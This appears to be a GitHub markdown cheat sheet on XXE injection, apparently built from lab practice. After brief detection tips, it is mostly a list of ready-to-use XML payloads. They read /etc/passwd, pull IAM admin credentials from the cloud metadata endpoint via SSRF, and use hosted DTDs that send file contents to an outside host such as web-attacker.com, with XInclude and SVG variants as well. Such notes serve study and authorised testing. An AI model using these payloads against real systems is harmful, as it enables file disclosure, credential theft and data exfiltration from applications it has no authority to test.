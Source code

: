 # XML external entity (XXE) injection
## Introduction 
vulnerability that allows an attacker to interfere with an application's processing of XML data
## How to find ? 
- Identify all visible instances in the application where client supplied input is parsed as XML code.  
- Inject XML meta-characters, such as a single quote, double quote, angle brackets, etc., to see if an error is thrown in the application that indicates if the application is using an XML parser. 
- Automate testing using a web application vulnerability scanner
## How to exploit ? 
1. simple external XXE injection, add the DTD in every node
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM
"file:///etc/passwd">]>
<stockCheck>
	<productId>
		&xxe;
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>
```
2. Combine with SSRF, look for internal resources 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
	<productId>
		&xxe;
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>
```
3. OAST using XXE 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "https://a9kmf5iz21mq3vltyvipl7ijaag14rsg.oastify.com"> ]>
<stockCheck>
	<productId>
		&xxe;
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>
```
4. OAST using parameter entities 
```xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://5bhhh0ku4wol5qno0qkkn2kec5iw6oud.oastify.com"> %xxe; ]>
<stockCheck>
	<productId>
		&xxe;
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>
```
5. Exfiltrate data OAST
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://exploit-0add000e03a4de4182ba886c019400a4.exploit-server.net/exploit"> %xxe; ]>
<stockCheck>
	<productId>
		&xxe;
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>
```
- NOTE: the exploit file that i am hosting must have the following content 
```xml 
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
6. If there was verbose error messages 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://exploit-0add000e03a4de4182ba886c019400a4.exploit-server.net/exploit"> %xxe; ]>
<stockCheck>
	<productId>
		&xxe;
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>
```
- Note: the external DTD at exploit server must have the following content 
```xml 
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfiltrate;
```
7. Use XInclude 
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```
8. XXE within svg files 
```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```